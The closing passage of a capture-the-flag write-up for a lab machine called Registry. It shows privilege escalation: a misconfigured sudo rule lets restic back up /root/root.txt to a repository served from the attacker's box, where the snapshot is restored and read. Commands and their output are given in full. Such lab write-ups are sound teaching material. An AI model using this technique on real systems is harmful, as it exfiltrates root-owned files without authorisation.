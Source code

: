 	root@pentestbox:~# rclone serve restic -v /tmp/restic-repo --addr 127.0.0.1:9120

On target then:

	www-data@bolt:/tmp/repo$ sudo /usr/bin/restic backup -r rest:http://127.0.0.1:9120/ /root/root.txt
	enter password for repository: 
	password is correct
	found 2 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to remove them
	scan [/root/root.txt]
	scanned 0 directories, 1 files in 0:00
	[0:00] 100.00%  33B / 33B  1 / 1 items  0 errors  ETA 0:00 
	duration: 0:00
	snapshot c990645b saved

On pentestbox we can restore this snapshot to read the file:

	root@pentestbox:~# restic -r /tmp/restic-repo restore c990645b --target /tmp/restore-work
	enter password for repository: 
	repository 3de2e332 opened successfully, password is correct
	restoring <Snapshot c990645b of [/root/root.txt] at 2020-02-22 23:38:30.382464914 +0000 UTC by root@bolt> to /tmp/restore-work
	root@pentestbox:~# ls -la /tmp/restore-work/root.txt 
	total 12
	drwxrwxr-x 2 root root 4096 Sep 27  2019 .
	drwxrwxr-x 4 root root 4096 Oct 21 08:56 ..
	-rw-rw-r-- 1 root root   33 Sep 27  2019 root.txt

And we rooted Registry!

#### Thank you for reading this write-up. Feedback is appreciated! Happy hacking :)







